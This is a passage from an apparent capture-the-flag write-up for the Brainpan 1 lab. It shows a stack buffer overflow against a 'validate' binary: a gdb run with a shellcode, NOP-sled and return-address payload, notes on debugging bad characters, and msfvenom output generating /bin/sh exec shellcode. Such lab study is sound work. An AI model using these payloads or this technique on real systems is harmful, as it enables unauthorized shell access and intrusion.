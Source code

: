 ```bash
(gdb) run $(python -c "print ('\xbd\x2c\x4e\x7f\xb7\xd9\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x0b\x31\x68\x15\x83\xe8\xf
c\x03\x68\x11\xe2\xd9\x24\x74\xef\xb8\xeb\xec\x67\x97\x68\x78\x90\x8f\x41\x09\x37\x4f\xf6\xc2\xa5\x26\x68\x94\xc9\xea\
x9c\xae\x0d\x0a\x5d\x80\x6f\x63\x33\xf1\x1c\x1b\xcb\x5a\xb0\x52\x2a\xa9\xb6') + ('\x90'*46) + ('\xaf\x84\x04\x08')")                             
The program being debugged has been started already.                                                                  
Start it from the beginning? (y or n) y                                                                               
Starting program: /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1/validate $(python -c "print ('\xbd\x2
c\x4e\x7f\xb7\xd9\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x0b\x31\x68\x15\x83\xe8\xfc\x03\x68\x11\xe2\xd9\x24\x74\xef\xb8\
xeb\xec\x67\x97\x68\x78\x90\x8f\x41\x09\x37\x4f\xf6\xc2\xa5\x26\x68\x94\xc9\xea\x9c\xae\x0d\x0a\x5d\x80\x6f\x63\x33\xf
1\x1c\x1b\xcb\x5a\xb0\x52\x2a\xa9\xb6') + ('\x90'*46) + ('\xaf\x84\x04\x08')")                                        
validating input...passed.                                                                                            
[Inferior 1 (process 114848) exited normally]
```

:::danger Debug Payload

The payload kept "passing" and exiting normally. I re-checked the `python -c "print 'A' * 70 + 'B' * 46 + 'C' * 4"` to make sure a) the EIP was still under my control and b) it still crashes with this payload length.

After that I determined the shellcode was at fault and re-checked my badchars in the next section.

:::

#### correct overflow

Re-generate my shellcode, this time using the bad characters list `x00x0axff` from the write-up:

```bash
─$ msfvenom -p linux/x86/exec CMD=/bin/sh -b 'x00x0axff' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of c file: 319 bytes
unsigned char buf[] = 
"\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7"
"\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd"
"\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7"
"\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e";
```

